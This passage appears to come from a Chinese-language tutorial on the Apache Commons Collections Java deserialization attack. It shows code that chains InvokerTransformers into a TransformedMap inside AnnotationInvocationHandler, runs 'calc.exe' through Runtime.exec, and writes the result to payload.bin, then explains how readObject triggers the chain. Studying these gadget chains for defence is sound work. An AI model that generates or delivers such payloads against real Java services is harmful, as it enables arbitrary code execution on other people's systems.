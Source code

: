 ```
                                new ConstantTransformer(Runtime.class),
                                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
 
                Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
 
                Map innerMap = new HashMap();   //实例化一个Map对象
                innerMap.put("value", "value");
                
                Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
 
                Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
                Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
                ctor.setAccessible(true);
                Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
 
                FileOutputStream f = new FileOutputStream("payload.bin");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
                out.close();
        }
}
```

当 TransformedMap 中的任意项的 Key 或者 Value 被修改，相应的`Transformer的transform()方法`就会被调用。除此以外，多个`Transformer`还能串起来，形成`ChainedTransformer`。 

Apache Commons Collections 中已经实现了一些常见的 `Transformer`，其中的 `InvokerTransformer` 接口实现了反射链，可以通过 Java 的反射机制来执行任意命令。于是我们可以通过 InvokerTransformer 的反射链获得 Runtime 类来执行系统命令 

传送门——> InvokerTransformer 反射链

在上面的 InvokerTransformer 反射链 这篇文章中我已经介绍了如何通过修改 Value 值来触发执行反射链来执行任意命令。

但是目前的构造还需要依赖于修改`Map`中的 Value 值去触发调用反射链，我们需要想办法通过`readObject()`直接触发。

如果某个可序列化的类重写了 readObject() 方法，并且在 readObject() 中对 Map 类型的变量进行了键值修改操作，并且这个 Map 参数是可控的，就可以实现我们的攻击目标了。

于是，我们找到了这个类：**AnnotationInvocationHandler** ，这个类有一个成员变量 `memberValues` 是`Map<String,Object>`类型，并且在重写的 readObject() 方法中有 memberValue.setValue() 修改 Value 的操作。简直是完美！

于是我们可以实例化一个 AnnotationInvocationHandler 类，将其成员变量 memberValues 赋值为精心构造的恶意 TransformedMap 对象。然后将其序列化，提交给未做安全检查的 Java 应用。Java 应用在进行反序列化操作时，执行了 readObject() 函数，修改了 Map 的 Value，则会触发 TransformedMap 的变换函数 transform()，再通过反射链调用了 Runtime.getRuntime.exec("XXX") 命令，最终就可以执行我们的任意代码了，一切是那么的天衣无缝！

Part 3
